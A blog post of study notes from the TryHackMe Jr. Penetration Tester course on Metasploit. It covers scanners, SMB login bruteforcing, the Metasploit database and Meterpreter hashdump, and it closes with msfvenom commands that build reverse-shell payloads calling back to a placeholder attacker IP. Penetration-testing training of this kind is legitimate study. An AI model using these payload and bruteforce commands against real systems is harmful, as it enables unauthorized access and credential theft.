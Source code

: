 ```yaml
---
title: 'TryHackMe: Jr. Penetration Tester'
date: 2022-04-14 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-04-14-tryhackme-jr-penetration-tester.html
author: 100007
---
```


# TryHackMe: Jr. Penetration Tester

**author:** Nathan Acks  
**date:** 2022-04-14

# Exploitation with Metasploit

## Scanning

Use `search portscan` to display built-in Metasploit port scanners. Note that `msfconsole` needs to be run as root for many scans to work - just like Nmap. That said, in my experience the fancier TCP scans (for example, SYN) don’t work over a VPN… So maybe best to stick with Nmap.

Speaking of which, Nmap can also be called internally (like other shell commands).

The `auxiliary/scanner/discovery/udp_sweep` module will probe for common UDP services.

Metasploit has a variety of Samba/CIFS scanners too; use `search scanner/smb` to list them.

NetBIOS = Network Basic Input/Output System

TryHackMe emphasizes the importance of examining the usage of NetBIOS for potential vulnerabilities, though it’s a bit light on specifics about what this means in practice.

Use `show advanced` to show additional module options.

The `auxiliary/scanner/http/http_version` module will give you HTTP server version information.

The `auxiliary/scanner/smb/smb_login` module will allow you to bruteforce Samba logins (username and/or password) using a wordlist(s).

- [Using “nmap”](https://cardboard-iguana.com/notes/nmap.html)
- [SAMBA (a.k.a. CIFS) Protocol](https://cardboard-iguana.com/notes/samba.html)
- [TCP SYN Port Scanner - Metasploit](https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/portscan/syn)

## The Metasploit Database

Get basic database status using `db_status`.

Create and delete workspaces (engagements) with `workspace`; use `-a` to add and `-d` to delete. Switch between workspaces using `workspace $NAME`.

Use `db_nmap` to run Nmap (all of the regular options work) and dump the results into the Metasploit database.

The `hosts` and `services` commands can then be used to display the, well, hosts and services logged by Metasploit during an engagement. Both commands support an `-S` search parameter, the results of which can then be added to `RHOSTS` using the `-R` parameter.

## Exploitation

Show the payloads available for a particular exploit using `show payloads`. Use `set payload` to set the payload for the exploit; re-run `show options` after this to check if the payload has added any additional options that will need to be set before exploitation.

To dump NTLM hashes from Meterpreter, use the `hashdump` command. Normally only the first four fields are relevant:

- Username
- RID (the last four digits of the Windows SID, with leading zeros dropped)
- The user’s LM password hash
- The user’s NTLM password hash

Use `sessions` to, well, manage your sessions (most useful when you’ve backgrounded a payload and/or are working with multiple targets).

- [Dumping Windows Password Hashes Using Metasploit](https://www.utc.edu/sites/default/files/2021-04/4660-lab6.pdf)
- [Windows Password Hashes](https://cardboard-iguana.com/notes/windows-password-hashes.html)

## Msfvenom

Msfvenom is a tool to create custom versions of Metasploit payloads, encoded into a variety of different binary formats and scripts.

Use `--list formats` to see available encoding formats.

```
# 32-bit Linux ELF Meterpreter payload
#
msfvenom -p linux/x86/meterpreter/reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f elf > rev_shell
# 32-bit Windows executable Meterpreter payload
#
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f exe > rev_shell.exe
# PHP Meterpreter payload
#
msfvenom -p php/meterpreter_reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f raw > rev_shell.php
# ASP Meterpreter payload
#
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f asp > rev_shell.asp
# Python Meterpreter payload
#
msfvenom -p cmd/unix/reverse_python \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f raw > rev_shell.py
```

Use the `exploit/multi/handler` module in Metasploit to catch the shells produced using Msfvenom (note that you’ll need to use `set payload` to tell Metasploit _what_ it’s catching!). We can catch both regular reverse shells and Meterpreter sessions this way.

